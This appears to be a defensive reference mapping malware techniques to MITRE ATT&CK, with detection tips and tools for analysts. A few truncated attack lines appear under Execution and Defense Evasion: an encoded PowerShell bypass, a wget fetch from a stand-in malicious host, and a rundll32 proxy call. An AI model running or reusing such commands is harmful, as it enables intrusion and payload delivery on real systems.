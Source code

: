 # Malware TTPs Mapping (MITRE ATT\&CK)

This document maps common malware behaviors and techniques to MITRE ATT\&CK TTPs and includes tools, detection tips, and response guidance.

---

## 🔍 Initial Access

### T1204 – **User Execution**

* Users run malware disguised as PDFs, installers, games, etc.
* **Delivery Methods:** Email, drive-by downloads, USBs
* **Detection:** Monitor file execution in temp/download folders
* **Tooling:** Email gateway logs, AV/EDR alerts

### T1566.001 – **Spearphishing Attachment**

* Malware embedded in Office docs/macros
* **Detection:** Monitor `.docm`, `.xlsm`, macro execution via Office telemetry
* **Tools:** Outlook message header analysis, VirusTotal, YARA

---

## 💣 Execution

### T1059 – **Command and Scripting Interpreter**

* Common for malware payloads via PowerShell, cmd, bash
* **Examples:**

  * `powershell -exec bypass -enc ...`
  * `bash -c "wget http://malicious[.]xyz/..."`
* **Detection:** Look for obfuscated scripts, encoded commands
* **Tools:** Sysmon, Splunk, Sigma rules

### T1106 – **Native API**

* Malware uses Windows API to perform malicious actions (e.g., `CreateRemoteThread`, `VirtualAlloc`)
* **Detection:** Monitor unusual process injection

---

## 🔐 Persistence

### T1547 – **Boot or Logon Autostart Execution**

* Malware ensures reboots won’t stop it
* **Methods:** Registry run keys, Startup folder, Scheduled Tasks
* **Detection:** Compare startup entries to baselines

---

## 🕵️‍♂️ Privilege Escalation

### T1055 – **Process Injection**

* Malware injects into legitimate processes (e.g., `explorer.exe`, `svchost.exe`)
* **Detection:** Look for unusual parent-child process pairs, memory allocation APIs
* **Tools:** Volatility, CrowdStrike, EDR logs

### T1068 – **Exploitation for Privilege Escalation**

* Exploits unpatched vulnerabilities (e.g., CVE-2021-40444)

---

## 🎛️ Defense Evasion

### T1027 – **Obfuscated Files or Information**

* Encoded PowerShell scripts, XORed payloads, encrypted droppers
* **Detection:** Look for high entropy files or base64 blobs

### T1218 – **Signed Binary Proxy Execution (LOLBAS)**

* Uses trusted binaries like `rundll32.exe`, `regsvr32.exe` to execute malicious code
* **Examples:**

  * `rundll32.exe shell32.dll,Control_RunDLL ...`

---

## 📡 Command and Control (C2)

### T1071.001 – **Application Layer Protocol: Web Traffic**

* C2 via HTTP(S) to evade detection
* **Detection:** Beaconing patterns, unusual domains/IPs
* **Tools:** Zeek, Suricata, Firewalls, DNS logs

### T1095 – **Non-Application Layer Protocol**

* Custom C2 channels (e.g., ICMP, TCP raw sockets)

---

## 🎯 Impact

### T1486 – **Data Encrypted for Impact (Ransomware)**

* Encrypts data using AES/RSA and drops ransom note
* **Detection:** Sudden spike in file rename/create events
* **Tools:** File Integrity Monitoring, backups, anti-ransomware tools

---

## 🧠 Threat Hunting Tips

* 🔍 Look for unusual child processes (e.g., Word spawning cmd.exe)
* ⚠️ Baseline scheduled tasks, services, registry keys
* 📦 Monitor outbound connections to unknown IPs/domains
* 🧪 Validate hashes and file signatures

---

## 🛡 Recommended Tools

* **Volatility / Redline** – Memory analysis
* **Sysmon** – Deep Windows telemetry
* **Wireshark / tshark** – Packet capture and inspection
* **MITRE ATT\&CK Navigator** – Visual mapping of TTPs

---

## 📚 References

* MITRE ATT\&CK: [https://attack.mitre.org/](https://attack.mitre.org/)
* LOLBAS Project: [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
* Sigma Rules: [https://github.com/SigmaHQ/sigma](https://github.com/SigmaHQ/sigma)
* YARA Rules: [https://virustotal.github.io/yara/](https://virustotal.github.io/yara/)

---

> **Pro Tip**: Cross-reference this TTP map with your EDR alerts and IOC feeds for faster triage during malware outbreaks.
